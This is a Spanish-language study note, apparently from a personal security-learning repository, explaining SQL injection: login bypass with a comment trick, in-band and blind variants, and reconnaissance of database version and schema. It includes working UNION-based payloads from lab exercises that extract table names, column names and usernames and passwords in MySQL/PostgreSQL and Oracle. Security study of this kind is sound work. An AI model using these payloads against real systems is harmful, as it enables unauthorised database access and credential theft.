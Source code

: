 ```yaml
---
title: SQL INJECTION
description: 29/01/2025
---
```

Tipo de vulnerabilidad en la que el hacker interfiere en la conversacion entre la aplicacion web y su base de datos.
La idea general es que la pagina web utiliza algun tipo de formulario o cookie que nosotros podemos modificar,
que se chequea en una base de datos SQL, el problema ocurre generalmente cuando el input del usuario no es 
sanitizado correctamente y termina ejecutando codigo que no deberia. Ejemplo:

> Supongamos que tenemos una pagina web con un formulario que nos pide usuario (juan) y contraseña (12345),
  en ese caso el query que la aplicacion hace a la base de datos se veria algo asi:

```
SELECT * FROM USERS WHERE USERNAME = 'juan' AND PASSWORD = '12345';
```

> Ahora ponele que nosotros decidimos poner en el nombre de usuario caracteres especiales de SQL, como por Ejemplo
  ' o --, en este caso si nuestro input no es sanitizado se podria generar problemas.
  
```
SELECT * FROM USERS WHERE USERNAME = 'admin'--' AND PASSWORD = '';
```

> como interpreta esto SQL? En este caso el ' que agregamos esta cerrando comillas mientras que el -- esta comentando
  el resto del codigo, por ende el query quedaria asi:


```
SELECT * FROM USERS WHERE USERNAME = 'admin'
```

> Y listo, pasamos como usuario admin sin pedir contraseña.


# Tipos de SQL injection 
## In-Band / Classic
Cuando el hacker manda el payload y recibe los resultados en el mismo canal de comunicacion. Es el tipo de ataque mas simple
y el que siempre queremos ver ya que es el mas facil de testear y el q da resultados mas rapido. Un ejemplo de esto es el ultimo q vimos.
Existen 2 tipos de In-Band:
    
    1. Error Based: Utiliza los mensajes de error que nos manda el server para determinar la estructura de la base de datos. 
    2. SQLI Union: Usa el operador UNION de SQL para conectar uno o mas comandos SELECT




## [Blind / Inferential](blind_sqli)
**No se ven directamente las respuestas al payload** ya que la informacion no se transmite por el mismo canal (la pagina web), por ende
hay que analizar el comportamiento de la aplicacion. El payload aca es un poco diferente ya que si o si tenes q hacer **preguntas
por si o por no** a la base de datos y asi recolectar la informacion.
Este tipo de ataques ocurren cuando la aplicacion esta configurada para q muestre mensajes de error generico como unica solucion a SQLI

    1. Boolean: 
    2. Time based: 

# Reconocimiento 
## Tipo de DB y VERSION
Determinar la version de la db es clave para entender a que ataques es vulnerable. Para esto usamos querys especificas
que dependen del tipo de db:
| database type    | Query            |
| ---------------- | ---------------- |
| Microsoft, MySQL | SELECT @@version |
| Oracle           | SELECT BANNER FROM v$version|
| PostgreSQL       | SELECT version() |

## Listar el contenido de la DB 
Casi todas las db (menos oracle) tienen tablas llamadas INFORMATION_SCHEMA para acceder a metadata de la DB.
La sintaxis del query se veria masomenos asi `SELECT * FROM information_schema.tables` esto devuelve todas las tablas de la DB.
Ejemplos de payload que arme yo:

> caso 1: era en un laboratorio que mostraba diferentes productos y te dejaba elegir entre categorias, el payload iba en la categoria.
¿Que hace?, te da el nombre de todas las tablas en la db, tiene una segunda columna ya porque el primer select tiene 2 columnas.

`1' UNION SELECT table_name, NULL from information_schema.tables--` 

> Despues le seguia esto que sacaba todas las columnas en una tabla importante:

`1'UNION SELECT column_name, NULL from information_schema.columns WHERE table_name = 'users_teyztz'--` 

> Por ultimo, usamos esto para sacar toda la data en la columna q sacamos antes de la tabla q seleccionamos:

`1' UNION SELECT username_fwlwud, password_dqfpbc from users_teyztz--`

### Listar el contenido en Oracle
En Oracle para conseguir todas las tablas de la DB haces `SELECT * FROM all_tables` y para mostrar todas las columnas `SELECT * FROM all_tab_columns`.
Mismo ejemplo de payload que en el anterior:

> Mostrar nombre de todas las tablas de la db, con una segunda columna x regla del UNION.

`1' UNION SELECT table_name, NULL from all_tables--`

> Mostrar nombre de todas las columnas de una tabla.

`1'UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_EAOXGK'--`

> Usamos la informacion q conseguimos para sacar data de las columnas.

`1'UNION SELECT USERNAME_ZQULEF, PASSWORD_QWMRCY FROM USERS_EAOXGK--` 

## Reglas del operador UNION
    - Misma cantidad de columnas en cada select
    - Las columnas tienen q ser del mismo tipo
Para determinar cuantas columnas tenemos podemos usar `' order by n` donde n es el numero de columnas q queremos testear, la idea
es hacerlo varias veces hasta q de un error y eso significa que la tabla tiene n - 1 de columnas.
Para determinar si son del mismo tipo hacemos `UNION SELECT type` donde type es int o string ('a'). Acordarse de cumplir la regla anterior cuando testeamos type. 




     
    

    
